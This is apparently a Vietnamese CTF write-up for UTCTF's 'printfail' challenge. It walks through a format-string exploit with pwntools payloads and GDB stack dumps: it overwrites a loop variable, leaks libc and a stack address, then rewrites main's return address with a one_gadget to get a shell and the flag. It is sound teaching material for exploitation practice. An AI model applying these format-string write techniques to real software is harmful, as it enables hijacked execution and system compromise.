 # printfail

## IDA

```c
int __fastcall run_round(_DWORD *a1)
{
  memset(buf, 0, sizeof(buf));
  fflush(stdout);
  if ( !fgets(buf, 512, stdin) )
    return 0;
  *a1 = strlen(buf) <= 1;
  return printf(buf);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [rsp+4h] [rbp-Ch] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  puts("I'll let you make one printf call. You control the format string. No do-overs.");
  v4 = 1;
  while ( v4 )
  {
    if ( !(unsigned int)run_round(&v4) )
      return 0;
    if ( v4 )
      puts("...That was an empty string. Come on, you've at least gotta try!\nOkay, I'll give you another chance.");
  }
  return 0;
}
```

## Định hướng

Em được hint là ow giá trị v4 của while để ta có thể đưa nhiều payload của mình vào.
Đầu tiên em thấy khi nhập giá trị ở hàm fgets và kiểm tra stack, em thấy dữ liệu nhập vào không lưu trong stack:

```c
───────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x555555555259 → run_round()
[#1] 0x5555555552d0 → main()
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail"         ← $rsp
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
0x007fffffffdc98│+0x0018: 0x005555555552d0  →  <main+60> test eax, eax
0x007fffffffdca0│+0x0020: 0x0000000100001000
0x007fffffffdca8│+0x0028: 0x6890f61163057300
0x007fffffffdcb0│+0x0030: 0x0000000000000001
0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
0x007fffffffdcc0│+0x0040: 0x0000000000000000
0x007fffffffdcc8│+0x0048: 0x00555555555294  →  <main+0> endbr64
```

Đến đây em khá bí và xin hint thì được hint là tìm cách thay đổi ret của hàm main là `c 0x007fffffffdcb8│+0x0038: 0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax`
Em nghĩ là mình sẽ tìm địa chỉ stack nào đó có trỏ đến địa chỉ ret để thay đổi thành one_gadget.
Em tiếp tục tìm nhưng vẫn chưa thấy địa chỉ nào trỏ trực tiếp đến ret
Bí quá em xin hint và coi lại video 20 thì em thấy ở đây, có thể sử dụng để khai thác:

```c
0x007fffffffdc80│+0x0000: 0x007fffffffddc8  →  0x007fffffffe064  →  "/mnt/d/ctf/utctf/printfail" ,    ← $rsp  //here
0x007fffffffdc88│+0x0008: 0x007fffffffdca4  →  0x6305730000000001
0x007fffffffdc90│+0x0010: 0x007fffffffdcb0  →  0x0000000000000001        ← $rbp
```

thì các bước em khai thác như sau:

- dùng %n trỏ đến vị trí thứ 6, và ghi đè `0x007fffffffe064` thành `0x007fffffffdcb8` , khi đó tại `0x007fffffffddc8` ta có:

```c
0x007fffffffddc8 : 0x007fffffffdcb8  →  0x007ffff7db5d90  →  <__libc_start_call_main+128> mov edi, eax
```

- dùng %n trỏ đến vị trí thứ 43 đổi `0x007fffffffdcb8  →  0x007ffff7db5d90` thành one_gadget. okela

---

# Thực thi

### Bước 1: ta sẽ tính toán để thay đổi v4, nên là em sẽ ghi 8 vào vị trí thứ 7 là đã thay đổi giá trị v4

![image](https://user-images.githubusercontent.com/111769169/224769758-d9f5f842-851b-479b-83e9-839ed89051a3.png)

### Bước 2: do file ko có hàm system nên ta sẽ phải leak libc.

Ta nên chọn vị trí 13 để leak vì nó là save rip của main và theo video 20 chú thích thì save rip nó tỉ lệ đúng hơn vì leak những thằng sau, khi chạy server nó là địa chỉ rác.

```python
    # %8c%7$n là để thoả điều kiện chạy loop để có thể input nhiều lần, nó đọc 8 kí tự từ %c và ghi vào v4
    r.sendlineafter(b"do-overs.\n", b"%8c%7$n %13$p")
```

chạy trên sever:

```
       8 0x7efc43df0083
...That was an empty string. Come on, you've at least gotta try!
Okay, I'll give you another chance.
```

tìm libc:
![image](https://user-images.githubusercontent.com/111769169/224772318-13002d7a-d83f-4579-814f-7ee6825d9e21.png)

pwnint và kiểm tra stack:
![image](https://user-images.githubusercontent.com/111769169/224772964-b9946161-9c43-4c3d-a25c-fecd95a5ec87.png)

đúng rồi =)), đợt em làm leak sai libc ngồi cả ngày mới biết sai libc nên cú lắm, phải cẩn thận mới được :)))

tính offset và viết script:

```python
    r = conn()
    input()
    r.sendlineafter(b"do-overs.\n", b"%8c%7$n %13$p")
    r.recvuntil(b"0x")
    leak = int(b"0x" + r.recvline(keepends=False), 16)
    libc.address = leak - 147587
    log.info("leak libc: " + hex(leak))
    log.info("leak base: " + hex(libc.address))
```

### Bước 3: leak ret

Do địa chỉ động nên ta cần leak địa chỉ ret, để bước sau ta sẽ ghi đè
Ở đây em sẽ leak địa chỉ này và tính offset của nó với ret là 8

![image](https://user-images.githubusercontent.com/111769169/224774432-dadd1ea0-ecdc-4c1c-8e15-37c222541500.png)

```python3
    payload = b"%8c%7$n %8$p"
    r.sendlineafter(b'chance.\n', payload)
    r.recvuntil(b"       8 ")
    leak = int(r.recvline(keepends=False), 16)
    ret = leak + 8
    log.info("ret: " + hex(ret & 0xffff))
```

### Bước 4: ghi đè

ta kiểm tra stack lại ta thấy địa chỉ mà lúc địa hướng (ở vị trí 6) và sau khi patched (ở vị trí 15)
em sẽ trỏ đến vị trí 15 (màu đỏ) và ghi đè giá trị nó trỏ đến thành địa chỉ ret (màu xanh)

```python
    payload = f"%8c%7$n%{ret & 0xffff}c%15$hn".encode()
    r.sendlineafter(b'chance.\n', payload)
```

thì thấy ta stack lúc này

```c
0x007ffc699248f8│+0x0038: 0x007fc7b9614083  →  <__libc_start_main+243> mov edi, eax
0x007ffc69924900│+0x0040: 0x007fc7b9811620  →  0x00050f5a00000000
0x007ffc69924908│+0x0048: 0x007ffc699249e8  →  0x007ffc69924900
```

hmm, có vẻ do `%8c%7$n` làm lệch đi 0x8, do đó ta - 8, nên em chỉnh lại script

```python
    payload = f"%8c%7$n%{ret - 8 & 0xffff}c%15$hn".encode()
    r.sendlineafter(b'chance.\n', payload)
```

```
0x007ffeea1d1588│+0x0038: 0x007f15ffc7a083  →  <__libc_start_main+243> mov edi, eax
0x007ffeea1d1590│+0x0040: 0x007f15ffe77620  →  0x00050f5a00000000
0x007ffeea1d1598│+0x0048: 0x007ffeea1d1678  →  0x007ffeea1d1588  →  0x007f15ffc7a083  →  <__libc_start_main+243> mov edi, eax
```

oke ổn

### Bước 5: thay đổi ret

ở đây ta chú ý

```
0x007ffeea1d1598│+0x0048: 0x007ffeea1d1678  →  0x007ffeea1d1588  →  0x007f15ffc7a083  →  <__libc_start_main+243> mov edi, eax
```

nghĩa là tại 1598 chứa địa chỉ 1678 do đó ta sẽ tìm đến `0x007ffeea1d1678`
khi đó `0x007ffeea1d1678: 0x007ffeea1d1588  →  0x007f15ffc7a083` và bắt đầu ghi đè ret thành one_gadget

đây ta thấy ở vị trí 43 có chứa địa chỉ trỏ đến ret `0x007ffc26014868│+0x0128: 0x007ffc26014778  →  0x007f0803924083  →  <__libc_start_main+243> mov edi, eax`

#### Bước 5.1: lấy one_gadget, chia gadget

ở đây ta sử dụng one_gadget để tạo shell, và kiểm tra các thanh ghi lúc ret của main

![image](https://user-images.githubusercontent.com/111769169/224783130-05bc88bb-16d8-4227-a3e3-7afcfd5e70b8.png)
![image](https://user-images.githubusercontent.com/111769169/224783460-37b8c58f-9035-4018-bd1d-98b397c3bd69.png)

vì thanh ghi r15 = rdx = 0 nên ta lấy gadget thứ 2
do là địa chỉ có 6byte nên để ghi hết cả 6byte thì máy tính chịu =)), do đó ta sẽ chia ghi nhiều lần.
có thể ghi 3 lần 2byte, ở đây e thử ghi 2 lần 3byte, do ghi 1 lần 3 byte có trường hợp nhiều quá nên có thể lỗi.

em gadget ra là 2:

```python
    one_gadget = libc.address + 0xe3b04
    part1 = one_gadget & 0xffffff               #lấy 3byte
    part2 = (one_gadget >> 8*3) & 0xffffff      # dịch bit 3 byte và lấy phần còn lại
```

#### Bước 5.2: gửi part 1 và part 2:

ghi 3byte vào vị trí 43

```python
    log.info("one_gadget 1: " + hex(part1))
    log.info("one_gadget 2: " + hex(part2))

    payload1 = f"%8c%7$n%{part1 - 8}c%43$n".encode()
    r.sendlineafter(b'chance.\n', payload1)
```

kiểm tra

```c
0x007fff72dbb4c0│+0x0120: 0x0000000000000001     ← $r13
0x007fff72dbb4c8│+0x0128: 0x007fff72dbb3d8  →  0x00007f2b00f9cb04
```

có vẻ nó đã ghi được 3byte rồi

tiếp đến ghi part 2
do đã ghi 3 byte rồi nên ta sẽ phải + 3 vào địa chỉ ret

```python
    payload = f"%8c%7$n%{(ret +3) & 0xffff - 8}c%15$hn".encode()
    r.sendlineafter(b'chance.\n', payload)
```

kiểm tra

```
0x00007ff900e2ab04 : lúc ghi 3byte part 1
0xf6862000007ff900 : lúc thay đổi
```

cuối cùng là ghi part 2 thoi

```python
    payload = f"%{part2}c%43$n".encode()
    r.sendlineafter(b'chance.\n', payload)
```

![image](https://user-images.githubusercontent.com/111769169/224789015-730b536e-e678-4bfd-a6c5-8007a8a93f91.png)

yeah, nó đã bắt đầu thực thi shell, và đã đúng =)))

![image](https://user-images.githubusercontent.com/111769169/224789257-27e2df2e-e461-4e48-8025-b3213f59b95f.png)

```python
# utflag{one_printf_to_rule_them_all}
```